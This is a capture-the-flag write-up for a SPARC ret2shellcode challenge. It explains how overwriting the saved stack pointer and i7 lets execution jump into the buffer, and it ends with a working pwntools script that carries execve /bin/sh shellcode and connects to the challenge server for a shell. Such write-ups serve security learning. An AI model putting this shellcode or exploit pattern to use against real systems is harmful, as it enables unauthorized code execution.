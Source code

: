 # Secret Pwnhub Academy Rewards Club

This is a ret2shellcode pwn challenge, relatively simple, except its a special architecture. Sparc.

I used http://www.ouah.org/UNF-sparc-overflow.html to learn about how to exploit this.
I used shellcode from https://packetstormsecurity.com/files/30970/sparc-sh.c.html since the shellcode from the link above didn't seem to work.

The binary has no protections besides partial relro.

sparc is big endian, so we'll have to make sure that we pack things correctly. When you run the binary, it prints out the address of offset 512 of the buffer. There's some overflow, it reads too much into the buffer.

In sparc, on the stack, there's two important things - a value put into the stack pointer, and a value put into i7, the sort of "return address" of sparc. The program will go to i7+8.

We need to make sure that this stack pointer value is a stack address, and is properly aligned. i7 must also be aligned.

The save address that will go into the stack pointer(sp) is right before the value that will go into i7.

We can use a simple cyclic pattern to find the i7 offset - remember we must unpack the overwritten i7 value in big endian, not little.

This reveals that i7 is at offset 700 of our input, so offset 696 has the stack pointer save.

Now, since we know the address of our input, we can make the program jump in our input, and put some shellcode inside of it.

The exploit:
1. Receive the stack address(buffer+512)
2. Send payload. At offset 512, shellcode. At offset 696, some stack address. At offset 700, the address given to us by program-8.

IMPORTANT: We must subtract 8 from the address of our shellcode as i7+8 is jumped to.

I subtracted 256 from the program given address to get my stack pointer save, but it really doesn't matter as long as its aligned. You could even keep it unchanged.
Script below.
```py
from pwn import *
context.arch = 'sparc'
context.endian = 'big'
shellcode = b"\x21\x0b\xd8\x9a\xa0\x14\x21\x6e\x23\x0b\xcb\xdc\xa2\x14\x63\x68\xe0\x3b\xbf\xf0\xc0\x23\xbf\xf8\x90\x23\xa0\x10\xc0\x23\xbf\xec\xd0\x23\xbf\xe8\x92\x23\xa0\x18\x94\x22\x80\x0a\x82\x10\x20\x3b\x91\xd0\x20\x08"
p = remote('localhost',4444) if args.LOCAL else remote('flu.xxx', 2020)
stackaddr = int(p.recvline(),16)
log.info(f"Stack address middle of buffer: {hex(stackaddr)}")
pause()
save = stackaddr - 256
payload = fit({512: shellcode, 700-4: save, 700:stackaddr-8})
p.sendline(payload)
p.interactive()
```
